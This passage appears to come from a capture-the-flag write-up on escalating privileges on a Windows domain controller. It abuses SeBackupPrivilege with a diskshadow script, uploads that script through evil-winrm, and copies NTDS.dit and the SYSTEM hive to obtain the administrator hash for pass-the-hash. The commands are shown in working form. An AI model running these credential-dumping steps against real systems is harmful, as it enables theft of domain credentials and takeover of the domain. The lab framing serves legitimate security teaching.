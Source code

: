 From this note, we can understand why the administrator hash from `lsass.zip` file extracted previously was not working: password have been changed.

#### Exploit SeBackupPrivilege

So we need to get into the Administrator context. On way to do this is to abuse SeBackup and
SeRestore privileges in order to dump the AD database. Then, we can use the administrator
NTLM hash in a PtH (Pass the Hash) attack to get a shell as them.

We will use the way to dump ActiveDirectory given from [Here](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration#no-credentials-diskshadow) : using diskshadow

A similar way is given in this [Article](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)

Diskshadow is a Windows built-in utility that can create copies of a drive that is currently in use.

We will uses the script mode to create a script file with all the commands needed to create a copy of the hash file, either SAM or NTDS.dit files in which we can extract them later locally.

Here is the script, we can run to get the files.

```txt
set verbose ONX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

NB: The 'x' at the end of each line is requiered, since the last character of each is omited (?..)

Use the evil-winrm session to upload the script, and pass it to diskshadow unility to create the shadow copy :

```shell
upload backup_script
diskshadow /s backup_script.txt
```

Switch to the E: Drive (the backup), copy the NTDS file using Robocopy to the C: drive :

```shell
robocopy /s E:\Windows\ntds . ndtd.dit
```

Next we get the system registry hive that contains the key needed to decrypt the NTDS file with reg save command.

```shell
reg save hklm\system system
```
